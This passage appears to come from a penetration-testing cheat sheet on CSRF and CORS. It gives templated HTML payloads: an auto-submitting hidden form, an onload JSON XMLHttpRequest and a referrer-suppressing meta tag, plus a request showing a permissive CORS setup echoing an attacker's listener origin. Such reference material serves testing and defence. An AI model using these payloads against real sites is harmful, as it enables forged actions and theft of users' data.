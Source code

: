 #### POST Request in Form
```html
<form id="f1" action="<url>" method="POST">
  <input type="hidden" name="<arg1>" value="<value1>"/>
  <input type="hidden" name="<arg2>" value="<value2>"/>
  <input type="submit" value="click me"/>
</form>
<body onload="document.getElementById('f1').submit()">
```

#### Request with JSON
Requires CORS to accept requests from all sources (`Access-Control-Allow-Origin: *`):
```html
<script>
function req() {
  var x = new XMLHttpRequest();
  x.open("<PUT|HEAD|POST>", "<url>", true);
  x.setRequestHeader("Content-Type", "application/json");
  x.send(JSON.stringify(<JSON Object>));
}
</script>
<body onload="req()">
```

### Security Bypass
#### Incorrect CSRF Token Validation
Conditions that may lead to vulnerability:
- The token is validated only for POST requests.
- If the token is missing, the request is not invalidated.
- The token is part of a pool of possible values, allowing reuse.
- The token is stored in a non-session cookie.

#### Referer Header
Include `Referrer-Policy: unsafe-url` in the response:
```html
<meta name="referrer" content="never">
```

## CORS (Cross-Origin Resource Sharing)

### Insecure Configurations
#### Access Allowed from Any Domain
Request:
```http
GET <target-url> HTTP/1.1
Host: <target-url>
Origin: <listener-url>
```

Response:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: <listener-url>
Access-Control-Allow-Credentials: true
```
